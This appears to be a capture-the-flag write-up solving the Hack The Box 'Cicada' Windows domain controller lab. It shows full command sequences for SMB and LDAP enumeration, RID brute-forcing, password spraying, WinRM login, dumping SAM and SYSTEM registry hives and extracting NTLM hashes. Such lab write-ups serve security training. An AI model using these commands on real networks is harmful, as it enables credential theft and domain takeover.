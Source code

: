 ```yaml
---
layout: post
title: HTB Cicada Writeup
date: 2024-10-20
categories: [HTB, Machines]
tags: [htb,writeup, windows, smb, ldap, active directory]
toc: true
published: true
updated: 2025-03-03
---
```

![Cicada](https://tuxpad.github.io/assets/images/htb/machines/cicada/cicada.png)

Cicada is a Windows machine rated as easy. It's a good box for a beginner to practice AD enumeration.



# Initial Enumeration


We start off with a port scan so we know what we have to work with.  
As we're not worried about detection we can use Rustscan and increase the speed of Nmap.

```bash
TARGET=10.10.11.35

rustscan --addresses $TARGET -- -sC -sV -T4 -oA portscan
```

Rustscan returns quite a few open ports, and as we already know that it's a Windows host,
we can see that it's likely an AD DC because we can recognize the standard ports of DNS (53), Kerberos (88),
RPC (135), SMB (139 & 445), LDAP (389,636,3268,3269) as well as WinRM (5985).

When we get the results from nmap we can see that this is indeed the case, with the domain being `cicada.htb`,
and that the hostname is `CICADA-DC.cicada.htb`, which we can add to `/etc/hosts`.

SMB is a good place to start, so we begin with checking if we can get a [Null/Guest](https://preview.sensepost.com/blog/2024/guest-vs-null-session-on-windows/) session.
  
First off, we'll list the shares.
```bash
smbclient -L $TARGET

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DEV             Disk      
	HR              Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

There are two interesting shares, `DEV` and `HR`.

We're unable to read the `DEV` share, but when connecting to the `HR` using anonymous auth,
we find a file we can download and read.

```bash
smbclient -U '' --password '' //$TARGET/HR 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 13:29:09 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024

		4168447 blocks of size 4096. 404417 blocks available
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (1.2 KiloBytes/sec) (average 1.2 KiloBytes/sec)

<ctrl+d>

cat Notice\ from\ HR.txt 

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: <redacted>

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Now we have a default password! 

# Getting a foothold  

We could also achieve the same thing using guest authentication, and now this comes into play.
Although we have a default password, we need find a user that hasn't changed password. 

Usernames can be enumerated using NetExec smb --rid-brute, which on this box can be done using a guest session, but not a null session.

```bash
nxc smb $TARGET -u '' -p '' --rid-brute   
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\: 
SMB         10.10.11.35     445    CICADA-DC        [-] Error connecting: LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.


nxc smb $TARGET -u 'Guest' -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Guest: 
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)

<snip>

SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

To get a list of users we can save the output to a temporary file and clean it up using awk and grep:  
`cat tmp.txt | grep -i euser | awk '{print $6}' |  awk -F\\ '{print $2}' > users.txt`

Now that we have a list of users we can do a password spray attack with the default password.

```bash
PASS='<redacted>'

nxc smb $TARGET -u users3.txt -p $PASS --continue-on-success
```

We find that the domain user `michael.wrightson` still has the default password, which gives us a valid set of credentials to work with.
When checking SMB, however, we find that we can't access any other shares. 
 
We're unable use the credentials to connect using WinRM, but perhaps we can authenticate with LDAP. 
 
```bash
nxc ldap cicada.htb -u $USER -p $PASS           
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.35     389    CICADA-DC        [+] cicada.htb\michael.wrightson:<redacted>
```

Success! We can now enumerate domain objects.

To get all the objects we can run the following command:
```bash
ldapsearch -H ldap://$TARGET -b "dc=cicada,dc=htb" -D $USER@cicada.htb -w $PASS "(objectClass=*)" > ldap.txt

```
This gives quite a lot of output though (5911 lines of text), but it doesn't hurt to have it saved if we might need it later.
We can also do a search for users by using `objectClass=person` and save to a file for only the user objects.

Now that we have pulled some domain info we can see if there's anything stored in the user descriptions using grep:
```bash
cat ldap.txt | grep -i desc
```

In one of the descriptions we can read `Just in case I forget my password is <redacted>`.

We could do another password spray to get the username, but why poke at the target more than necessary?
Even though being discovered isn't a factor, the information is already saved, so we can just grep for the phrase using the flag `-A` to display lines below the match.

```bash
grep 'my passw' -A 23 ldap.txt
```

Now we can see that the user is `david.orelious`. 
 
Yet again we go back to SMB and NetExec, and we find that our new user can access the `DEV` share.  
Inside the share we find a script called Backup_script.ps1, which contains yet another set of credentials.

Using our third set of credentials we can finally connect to the host using WinRM.
```bash
evil-winrm -i $TARGET -u $USER -p $PASS
```

Now we can collect the user flag.

# Privilege Escalation
A good place to start is to check the users privileges. 

```PowerShell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Here we see that the user has `SetBackupPrivilege` set, which means that the user can read all
files, and thus we can dump registry hives to get NTLM hashes for cracking or pass-the-hash attacks.

```
mkdir C:\temp
reg save hklm\sam C:\temp\sam
reg save hklm\system C:\temp\system
download C:\temp\sam
download C:\temp\system
```

After removing the files from the server and disconnecting, we can now use pypykatz to extract hashes:

```bash
pypykatz registry --sam sam system
```

With the Administrators hash to connect using WinRM and collect the root flag from the admin desktop.

